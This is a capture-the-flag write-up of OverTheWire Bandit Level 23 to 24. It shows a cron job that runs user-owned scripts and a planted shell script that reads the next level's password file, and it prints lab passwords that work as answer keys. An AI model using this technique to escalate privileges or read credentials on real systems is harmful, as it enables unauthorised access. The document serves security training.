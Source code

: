 +++
author = "Alex Domnit"
title = 'Bandit-Level 23'
date = 2024-08-18T19:37:30+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Bandit",
]

toc = false
+++

# Level goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.\
NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!\
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Login
*ssh bandit23@bandit.labs.overthewire.org -p 2220*\
*0Zf11ioIjMVN551jX3CmStKLYqjk54Ga*

### Doc
[Usefull read if you are new to bash scripting](https://www.geeksforgeeks.org/bash-scripting-introduction-to-bash-and-bash-scripting/)\
[File permissions](https://www.redhat.com/sysadmin/linux-file-permissions-explained)
### Solution
With the same approach as until now, let`s see what the script being run does.

{{< highlight html >}}
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir	sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
{{< /highlight >}}

You can break the script down line by line and get to the conclusion that basically, it runs all the valid scripts in foo, afterwards deletes all the contents of the directory. The interval for this process is 1 minute so we could just make our own script that **cat\`s** the password for bandit24 and redirects it somewhere we want. We don`t care what happens to the script afterwards. (Chmod +x) makes a bash script executable. (Chmod +r) makes a bash script able to read.

{{< highlight html >}}
bandit23@bandit:/etc/cron.d$ mktemp -d
/tmp/tmp.VKKpqs7HyM
bandit23@bandit:/etc/cron.d$ cd /tmp/tmp.VKKpqs7HyM
bandit23@bandit:/tmp/tmp.VKKpqs7HyM$ touch script.sh
bandit23@bandit:/tmp/tmp.VKKpqs7HyM$ chmod +x script.sh
bandit23@bandit:/tmp/tmp.VKKpqs7HyM$ nano script.sh
{{< /highlight >}}

#### Script:
```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.VKKpqs7HyM/key.txt
```

Now **cat** the file that came into your directory.

{{< highlight html >}}
bandit23@bandit:/tmp/tmp.VKKpqs7HyM$ cat key.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
{{< /highlight >}}